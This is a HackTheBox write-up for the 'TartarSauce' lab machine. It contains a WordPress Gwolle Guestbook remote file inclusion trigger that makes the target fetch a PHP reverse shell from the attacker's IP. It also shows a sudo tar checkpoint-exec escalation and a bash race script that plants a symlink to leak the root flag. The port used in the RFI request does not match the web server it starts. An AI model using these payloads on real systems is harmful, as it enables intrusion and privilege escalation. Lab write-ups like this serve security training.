# TartarSauce

## Overview

- **OS:** Linux (Ubuntu)
- **IP:** 10.129.22.160
- **Difficulty:** Medium
- **Platform:** HackTheBox

### Summary

TartarSauce runs a WordPress install buried under a `/webservices` path with an outdated Gwolle Guestbook plugin. That plugin has a remote file inclusion bug, so we host a malicious `wp-load.php` on our box and trick the server into fetching and running it, which lands a shell as www-data. From there www-data can run `tar` as the user onuma with no password, and tar has a checkpoint feature that runs commands, so that gives a shell as onuma and the user flag. For root there is a backup script called backuperer that runs on a timer as root, extracts a tar archive we control, and diffs the result. By slipping a symlink to `root.txt` into that archive we get the integrity check to print the root flag into a log file we can read.

## Enumeration

### Nmap Scan

Started with a service and version scan. The exact command, with the output written to XML so it can be reused later:

```bash
nmap -sCV -T5 10.129.22.160 -oX tartar.xml
```



Only one port is open, which keeps the focus narrow:

- **80** Apache httpd 2.4.18 (Ubuntu)

The default scripts pull back the interesting part: `robots.txt` has five disallowed entries, and those entries hand us a map of hidden paths.



The disallowed entries point at `/webservices/tar/tar/source/`, `/webservices/monstra-3.0.4/`, `/webservices/easy-file-uploader/`, `/webservices/developmental/`, and `/webservices/phpmyadmin/`. robots.txt is meant to tell crawlers what to skip, but for us it is a free list of things the admin would rather we did not look at.

### Web Server

Port 80 serves a page that is just ASCII art and a "Welcome to TartarSauce" banner. Nothing clickable.



### Directory Brute Force

Ran gobuster against the web root with common extensions added.

```bash
gobuster dir -u http://10.129.22.160 -w /usr/share/wordlists/dirb/common.txt -x php,html,txt -t 50
```



The standout result is `/webservices`, which redirects (301), so there is something living under it. Pointed gobuster at that path next.

```bash
gobuster dir -u http://10.129.22.160/webservices -w /usr/share/wordlists/dirb/common.txt -x php,html,txt -t 50
```



This turns up `/webservices/wp`, which redirects to a WordPress install. Most of the paths from robots.txt return nothing, but the WordPress one is live, so that becomes the target.

## Foothold

### Scanning WordPress

WordPress is only as secure as its plugins, so the move is to enumerate them. wpscan with aggressive plugin detection digs through known plugin paths even when they are not linked anywhere.

```bash
wpscan --url http://10.129.22.160:80/webservices/wp -e ap --plugins-detection aggressive
```



The scan flags a plugin called **gwolle-gb** at version 2.3.10, and notes it is out of date.



> `-e ap` tells wpscan to enumerate all plugins. Aggressive detection means it requests known plugin files directly instead of only reading the page source, so it finds plugins that are installed but not actually used on any visible page.

Confirmed the plugin and version by pulling its readme straight from the browser.



### Finding the Exploit

Searched the local exploit database for anything matching Gwolle.

```bash
searchsploit gwolle
```



There is a Remote File Inclusion entry for Gwolle Guestbook 1.5.3. Mirrored a copy locally to read it.

```bash
searchsploit -m 38861.txt
```



The advisory explains the bug clearly. The `abspath` GET parameter is passed into a PHP `require()` without being sanitised, so the server can be told to include a remote file. If you put a file named `wp-load.php` on your own server and point `abspath` at your server, the target will fetch it and run it.



> **Remote File Inclusion (RFI)** is when a web app builds a file path from user input and then includes it, without checking it. If the path can be a URL pointing at an attacker's machine, the app downloads and executes whatever code lives there. Here the vulnerable request is `ajaxresponse.php?abspath=http://[our-ip]`, and the plugin tacks on `/wp-load.php` itself, so we just need to serve a `wp-load.php` containing our payload.

### Building the Payload

Grabbed the classic pentestmonkey PHP reverse shell, renamed it `wp-load.php`, and set the IP and port to our attacker box.





Set the listener IP to `10.10.14.120` and the port to `4444`.

### Mapping the Hostname

The WordPress site uses its own hostname in some links, so added it to `/etc/hosts` so everything resolves cleanly.



```
10.129.22.160   tartarsauce.htb
```

With that in place the blog renders properly. It is a placeholder "Test blog" with a single "Hello world" post, which confirms the install is live but otherwise empty.



### Triggering the RFI

Three things happen at once here. Started a Python web server in the folder holding our `wp-load.php` so the target can fetch it, started a netcat listener for the shell, then sent the curl request that triggers the inclusion.

```bash
sudo python3 -m http.server 80
```

```bash
nc -lvnp 4444
```

```bash
curl -s "http://10.129.22.160/webservices/wp/wp-content/plugins/gwolle-gb/frontend/captcha/ajaxresponse.php?abspath=http://10.10.14.120:8000/"
```

The server requests `wp-load.php` from us, runs it, and the listener catches the shell.



Landed as www-data.



## Privilege Escalation to onuma

### Checking sudo Rights

First thing in any shell is to check what the current user can run as someone else.

```bash
sudo -l
```



www-data can run `/bin/tar` as the user **onuma** with no password. There is also an `onuma` home directory we cannot read yet.

### Abusing tar

tar is on the GTFOBins list because it can run arbitrary commands through its checkpoint feature. The `--checkpoint` option fires an action every so many records, and `--checkpoint-action=exec` lets that action be a command. Point it at a shell and tar hands us that shell as onuma.

```bash
sudo -u onuma /bin/tar -cf /dev/null /dev/null --checkpoint=1 --checkpoint-action=exec="/bin/bash -i"
```



> tar's job is making archives, but `--checkpoint-action=exec` was meant for things like printing progress. Because it runs whatever command you give it, and because sudo runs the whole thing as onuma, the `/bin/bash -i` we pass runs as onuma too. This is a textbook GTFOBins trick: a normal binary doing something far outside its day job.

`whoami` confirms onuma.

## User Flag

```
4b66c435acd316c439****************
```

(censored)



## Privilege Escalation to root

### Spotting a Scheduled Job

With a stable shell, the next step is to look for things running on a schedule that we do not control. Hosted pspy from our box first.

```bash
sudo python3 -m http.server 80
```



After downloading and running pspy on the target, it shows root repeatedly running `/bin/bash /usr/sbin/backuperer`.



> pspy watches `/proc` for new processes without needing root. It is the go-to tool for catching a cron or timer job you cannot read directly, because it prints short-lived commands the moment they start.

### Investigating backuperer

Located the script and the systemd timer that drives it.

```bash
locate backuperer
cat /lib/systemd/system/backuperer.timer
```



The timer description says it runs backuperer every five minutes. Searched the filesystem for anything else referencing it.

```bash
grep -ilr backuperer / 2>/dev/null
```



### Reading the Script

Read the backuperer script itself. It is worth going through carefully because the privesc lives in its logic.

```bash
cat /usr/sbin/backuperer
```



The first half sets up variables: it backs up `/var/www/html`, writes a temp archive to `/var/tmp` with a random dot-name, and keeps a `check` directory in `/var/tmp`.



The key line is the backup itself: it runs `tar -zcvf $tmpfile $basedir` as onuma to archive the web root.



The second half is the part we abuse. It makes the `check` directory, extracts our archive into it with `tar -zxvf`, then runs an integrity check that diffs the extracted files against the live web root. If the diff finds a difference, it writes an "Integrity Check Error" log including the diff output to `/var/backups/onuma_backup_error.txt`.

Putting the pieces together: backuperer extracts an archive that lives in `/var/tmp`, as root, and then prints any differences it finds into a log file. If we can control what is in that archive, and put a symlink to `root.txt` inside it, the diff will follow the symlink and print the contents of the root flag into the error log.

### The Race

There is a timing problem. backuperer creates the archive, waits, then extracts and checks it. We need to swap our own poisoned archive in during that wait window. The whole thing only matters because the extract and diff happen as root.

First tried a manual one-liner to wait for the archive, swap robots.txt for a symlink to root.txt, and read the log.



The diff output confirms the approach works in principle: it reports the two files differ and shows the swp file comparison, proving the integrity check really does read and compare file contents as root.



### Automating It

The manual version is fiddly because of the timing, so wrote a small script to do it reliably. It waits for backuperer to drop its archive in `/var/tmp`, copies it out, extracts it, replaces the `robots.txt` inside with a symlink to `/root/root.txt`, repacks the archive in place, then tails the error log waiting for the result.

```bash
cd /dev/shm
mkdir exploit
cd exploit
nano exploit.sh
```





The logic in the script:

```bash
#!/bin/bash
cd /dev/shm

echo "[+] Waiting for backuperer archive..."
start=""
cur=""
while [ "$start" = "$cur" ] || [ -z "$cur" ]; do
    sleep 5
    cur=$(find /var/tmp -maxdepth 1 -type f -name ".*" 2>/dev/null | head -n 1)
done
echo "[+] Found archive: $cur"

cp "$cur" .
fn=$(basename "$cur")

echo "[+] Extracting..."
tar -zxf "$fn"

echo "[+] Replacing robots.txt with root symlink..."
rm -f var/www/html/robots.txt
ln -s /root/root.txt var/www/html/robots.txt

echo "[+] Repacking archive..."
rm -f "$fn"
tar czf "$fn" var
mv "$fn" "$cur"

echo "[+] Waiting for log output..."
tail -f /var/backups/onuma_backup_error.txt
```

> The trick is the symlink. When backuperer extracts our repacked archive as root and diffs it against the live web root, it reads through the `robots.txt` symlink and follows it to `/root/root.txt`. The diff then prints the flag contents straight into the error log, because as far as the script knows it is just reporting a file that does not match.

Served the script from our box and pulled it onto the target.

```bash
python3 -m http.server 80
```



```bash
cd /dev/shm
wget http://10.10.14.120:80/exploit.sh
chmod +x exploit.sh
```



### Catching the Flag

Ran the script and waited for the next backuperer cycle. The integrity check fires, the diff follows our symlink, and the root flag appears in the log output marked with `>`.

```bash
./exploit.sh
```



## Root Flag

```
a5c48e111ad4dd360630****************
```

(censored)

pwned

## Lessons Learned

- robots.txt is reconnaissance, not protection. The disallowed entries handed over the whole `/webservices` layout and pointed straight at the WordPress install.
- Plugins are the soft underbelly of WordPress. An unused, outdated Gwolle Guestbook plugin was enough for an unauthenticated RFI, no login required.
- Check `sudo -l` first, every time. A single `tar` entry for another user was the whole jump from www-data to onuma, thanks to the checkpoint-action trick from GTFOBins.
- A root job that touches files you can write is dangerous even if you cannot read it. backuperer never gave us code execution as root directly, but because it extracted an archive we controlled and diffed it as root, a simple symlink leaked the flag.
- pspy earns its place again. Without being able to read root's timers, watching `/proc` is what revealed backuperer in the first place.
